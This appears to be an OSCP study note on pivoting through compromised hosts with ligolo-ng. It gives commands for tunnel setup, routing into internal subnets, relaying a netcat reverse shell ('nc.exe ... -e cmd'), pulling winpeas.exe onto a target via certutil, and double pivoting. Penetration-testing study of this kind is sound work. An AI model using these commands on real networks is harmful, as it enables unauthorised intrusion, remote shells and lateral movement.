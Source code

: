 # Pivoting for OSCP

{% embed url="https://www.youtube.com/watch?v=DM1B8S80EvQ&t" %}

{% embed url="https://github.com/nicocha30/ligolo-ng" %}

If we're on a Active directory machine and attacking from a kali, we have to download windows agent end linux proxy from releases:

<figure><img src="../../.gitbook/assets/image (250).png" alt=""><figcaption></figcaption></figure>

On kali:

```
sudo ip tuntap add user felix mode tun ligolo
sudo ip link set ligolo up
./proxy -selfcert
```

On target machine:

```
./agent.exe -connect <IP-KALI>:11601 -ignore-cert
```

back on ligolo listener:

```
session
1
start 
```

and on another terminal on kali we add the subnet we want to access:

```
sudo ip route add 10.10.14.0/24 dev ligolo
```

### Reverse shells from internal network

Add listener on ligolo proxy ->

```
listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:4444
```

any connection that comes in to MS01 from port 1234 will be forwarded to our localhost on port 4444

we can check listener with

```
listener_list
```

So now we set up our listener on our kali:

```
rlwrap nc -nlvp 4444
```

Let's say MS01 has internal IP of 10.10.120.131, on our target machine we will change the IP of the listener to ip of MS01:

```
nc.exe 10.10.120.131 1234 -e cmd
```

And from that we should catch our shell up and running

### File transfer from internal network

We go back in the ligolo proxy ->

```
listener_add --addr 0.0.0.0:1235 --to 127.0.0.1:80
```

We choose port 80 because we'll run our python webserver on port 80

let's say we host winpeas ->

```
python -m http.server 80
```

on the target machine:

```
certutil -urlcache -f http://<MS01>:1235/winpeas.exe winpeas.exe
```

and the file will be transfered

### Double Pivot

{% embed url="https://www.youtube.com/watch?v=LiaBVuz2B4o" %}

Let's say we have a successfull pivot, we manage to get a shell on a machine and discover a new subnet we want to scan:

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

on our kali:

```
sudo ip tuntab add user felix mode tun ligolo1; sudo ip link set ligolo1 up
```

On the ligolo session:

```
listener_add --addr 0.0.0.0:9000 --to 127.0.0.1:9001 -tcp
#check if up:
listener_list
```

Then we transfer our agent on the ubuntu machine we control and type:

```
./agent --connect 172.16.0.2:9001 -ignore-cert
```

On ligolo session:

```
session
2
#check:
ifconfig
```

On our kali:

```
sudo ip route add 10.10.10.0/24 dev ligolo1
```

and ligolo session:

```
start --tun ligolo1
```
